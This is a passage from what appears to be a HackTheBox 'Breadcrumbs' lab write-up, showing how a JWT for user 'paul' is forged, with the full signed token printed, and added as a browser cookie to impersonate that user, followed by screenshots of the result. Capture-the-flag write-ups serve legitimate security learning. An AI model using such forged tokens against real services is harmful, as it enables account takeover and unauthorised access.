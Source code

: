 ```
{"data":{"username":"paul"}}
```

Now we have everything we need let's forge our token, we can either use python or jwt.io


<img alt="test" src="/assets/img/htb-breadcrumbs/jwt.png">

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.4mJguG8tRd2z_feWJpmr_J3AdMeDPvW7GCK7cW7o0AI
```

Let's add the cookie to our browser

<img alt="test" src="/assets/img/htb-breadcrumbs/newjwt.png">

Let's to import anything 

<img alt="test" src="/assets/img/htb-breadcrumbs/succ.png">